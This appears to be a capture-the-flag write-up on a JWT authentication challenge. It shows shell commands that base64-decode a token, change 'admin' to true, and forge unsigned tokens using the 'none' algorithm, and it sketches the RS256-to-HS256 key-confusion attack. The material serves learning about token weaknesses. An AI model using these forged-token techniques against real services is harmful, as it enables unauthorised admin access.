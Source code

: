 - this is the jwt token
- ![image](https://github.com/m0wn1ka/ctf/assets/127676379/c509f7a5-c54b-4c3a-a913-63000d606f8a)
- it is using rs256
- when we try to register as admin it says user already existed
- ![image](https://github.com/m0wn1ka/ctf/assets/127676379/6fe8c79b-99c1-48a7-924f-ae6f0cec472d)
- so our goal would be to login as admin
- and also
```
{
  "user": "user1",
  "public_id": "eebe4bd7-9c44-4c84-a9bb-dad336c8de5e",
  "admin": false,
  "exp": 1713093336
}
```
here we see admin:false
we can make it true
```
C:\home\radha> echo 'eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9'|base64 -d
{"alg":"RS256","typ":"JWT"}                                                                                
C:\home\radha> echo '{"alg":"None","typ":"JWT"}'|base64
eyJhbGciOiJOb25lIiwidHlwIjoiSldUIn0K


C:\home\radha> echo 'eyJ1c2VyIjoidXNlcjEiLCJwdWJsaWNfaWQiOiJlZWJlNGJkNy05YzQ0LTRjODQtYTliYi1kYWQzMzZjOGRlNWUiLCJhZG1pbiI6ZmFsc2UsImV4cCI6MTcxMzA5MzMzNn0='|base64 -d 
{"user":"user1","public_id":"eebe4bd7-9c44-4c84-a9bb-dad336c8de5e","admin":false,"exp":1713093336}
                                                                           
C:\home\radha> echo '{"user":"user1","public_id":"eebe4bd7-9c44-4c84-a9bb-dad336c8de5e","admin":true,"exp":1713093336}'|base64
eyJ1c2VyIjoidXNlcjEiLCJwdWJsaWNfaWQiOiJlZWJlNGJkNy05YzQ0LTRjODQtYTliYi1kYWQz
MzZjOGRlNWUiLCJhZG1pbiI6dHJ1ZSwiZXhwIjoxNzEzMDkzMzM2fQo=

eyJhbGciOiJOb25lIiwidHlwIjoiSldUIn0K.eyJ1c2VyIjoidXNlcjEiLCJwdWJsaWNfaWQiOiJlZWJlNGJkNy05YzQ0LTRjODQtYTliYi1kYWQz
MzZjOGRlNWUiLCJhZG1pbiI6dHJ1ZSwiZXhwIjoxNzEzMDkzMzM2fQo.

```
![image](https://github.com/m0wn1ka/ctf/assets/127676379/351b175b-4fde-42bc-8ee6-eb8894e572f7)
- so it is not accepting none
```
{"message":"Invalid tokenThe specified alg value is not allowed"}
```
- there is another case rsa uses a pair of cases public and private
- uses private key to sign and public key to verify
- as we have access to public key we can sign our data with this key and say the algorith is hs256(symmetric enc)
- ![image](https://github.com/m0wn1ka/ctf/assets/127676379/9718b95b-6bbb-49f2-a7de-326096ffe668)
## try with none
```
C:\home\radha> echo '{"alg":"none","typ":"JWT"}'|base64
eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0K

eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0K.eyJ1c2VyIjoidXNlcjEiLCJwdWJsaWNfaWQiOiJlZWJlNGJkNy05YzQ0LTRjODQtYTliYi1kYWQz
```
MzZjOGRlNWUiLCJhZG1pbiI6dHJ1ZSwiZXhwIjoxNzEzMDkzMzM2fQo.
             
